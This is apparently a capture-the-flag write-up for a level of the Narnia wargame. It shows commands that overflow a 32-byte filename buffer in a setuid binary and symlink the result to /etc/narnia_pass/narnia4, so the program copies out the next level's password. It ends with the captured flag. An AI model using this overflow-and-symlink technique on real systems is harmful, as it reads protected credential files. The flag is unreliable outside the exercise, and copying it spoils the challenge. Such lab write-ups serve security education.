 # narnia level4 Solution

we will override the output file, this is the line we'll run
`python3 -c "print('/tmp/1/'+'a'*(32-len('/tmp/1/')) + 'output_file')"`
notice my dir is `/tmp/1`.
then, we will run link the file that it outputs to the password file: `ln -sf /etc/narnia_pass/narnia4 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

then, we will create the output file: `touch output_file`
and we need only to execute the binary: `/narnia/narnia3 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

in one picture:
![alt text](./images/level4.png)



**Flag:** ***`iqNWNk173q`*** 
